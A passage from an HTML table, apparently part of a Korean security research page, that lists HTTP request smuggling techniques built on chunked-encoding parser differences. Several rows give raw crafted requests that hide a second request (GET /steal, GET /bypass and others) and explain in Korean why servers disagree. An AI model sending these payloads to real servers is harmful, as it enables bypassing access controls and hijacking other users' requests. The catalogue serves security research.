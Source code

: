     </tr>
    <tr>
      <td>Digit‑separator underscore</td>
      <td><pre><code>POST / HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
\r\n
0_ff\r\n
[255 Byte Data]\r\n
0\r\n
\r\n
GET /steal HTTP/1.1\r\n
Host: victim\r\n
\r\n</code></pre></td>
      <td>0_ff 를 0 으로 해석하는 서버와 255 로 해석하는 서버가 모두 존재</td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>Explicit‑radix hex prefix</td>
      <td><pre><code>POST / HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
\r\n
0x10\r\n
[16 Byte Data]\r\n
0\r\n
\r\n
GET /secret HTTP/1.1\r\n
Host: victim\r\n
\r\n</code></pre></td>
      <td>일부 구현은 0x10 을 16 으로, 다른 구현은 유효하지 않은 Chunk 로 처리</td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>Bare‑CR chunk delimiter</td>
      <td><pre><code>POST / HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
\r\n
2\r\r;a\r\n
02\r\n
2d\r\n
0\r\n
\r\n
DELETE / HTTP/1.1\r\n
Content-Length: 23\r\n
\r\n
0\r\n
\r\n
GET /bypass HTTP/1.1\r\n
\r\n</code></pre></td>
      <td>청크 길이 뒤에 표준인 <code> CRLF(\r\n) </code>  대신 <code> CR(\r)</code> 만 사용했을 때 파서마다 줄 구분을 다르게 해석하는 점을 악용한 것으로, 일부 구현체(A)는 <code> 2\r;a </code> 를 “길이 2짜리 청크, 확장은 무시”로 보고 뒤따르는 <code> DELETE / HTTP/1.1… </code> 를 청크 본문으로 흡수하지만, 다른 구현체(B)는 <code> 2\r </code> 만 청크 길이로 인식하고 <code> ;a </code> 를 일반 문자로 처리해 이후 요청을 별도 HTTP 메시지로 분리함으로써 의도치 않은 추가 요청 <code> (GET /bypass HTTP/1.1) </code> 을 실행하게 만드는 HTTP Request Smuggling 기법이다.</td>
      <td>[4], [I]</td>
    </tr>
    <tr>
      <td>Trailer‑field parsing</td>
      <td><pre><code>POST / HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
A:GET /evil HTTP/1.1\r\n</code></pre></td>